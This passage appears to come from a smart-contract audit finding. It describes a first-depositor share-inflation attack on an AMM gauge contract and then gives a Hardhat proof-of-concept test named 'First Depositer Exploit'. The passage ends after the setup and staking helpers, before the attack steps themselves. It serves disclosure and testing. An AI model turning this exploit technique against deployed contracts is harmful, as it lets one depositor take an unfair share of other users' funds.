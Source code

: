 Both cases were evaluated (with and without staking 1 wei first). The attack scenario outputs a 100% more shares to Alice than Bob in comparison with the ethical/non-attack situation.

The code used to perform this test is the following:

    it("First Depositer Exploit", async function () {
            let userShares = []
            let userIntegral = []
            let userBalance = []
    
            let globalIntegral, totalStaked;
            let aliceBob = [alice, bob];
    
            // Starting Checkpoint
            await this.ammgauge.poolCheckpoint();
            await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 10 days
            
            const updateStates = async () => { 
                userShares = []
                userIntegral = []
                userBalance = []
                for (const user of aliceBob) {
                    let balances = ethers.utils.formatEther(await this.ammgauge.balances(user.address));
                    let currentShare = ethers.utils.formatEther(await this.ammgauge.perUserShare(user.address));
                    let currentStakedIntegral = ethers.utils.formatEther(await this.ammgauge.perUserStakedIntegral(user.address));
                    userShares.push(currentShare);
                    userIntegral.push(currentStakedIntegral);
                    userBalance.push(balances);
                }
                globalIntegral = await this.ammgauge.ammStakedIntegral()
                totalStaked = await this.ammgauge.totalStaked()
                console.log("  ")
                console.log("         ALICE / BOB");
                console.log(`Shares: ${userShares}`);
                console.log(`Integr: ${userIntegral}`);
                console.log(`Balanc: ${userBalance}`);
                console.log("  ")
                console.log("Global")
                console.log(`Integral: ${ethers.utils.formatEther(globalIntegral)}, TotalStaked: ${ethers.utils.formatEther(totalStaked)}`)
            }
    
            const stake = async (to, amount) => {
                await updateStates()
                console.log(" ")
                // Balance before
                let balanceBefore = await this.ammgauge.balances(to.address);
                // Stake
                await this.ammgauge.connect(to).stake(amount);
                expect(await this.ammgauge.balances(to.address)).to.be.eq(balanceBefore.add(amount));
                // await updateStates();
                console.log(" ")
            }
    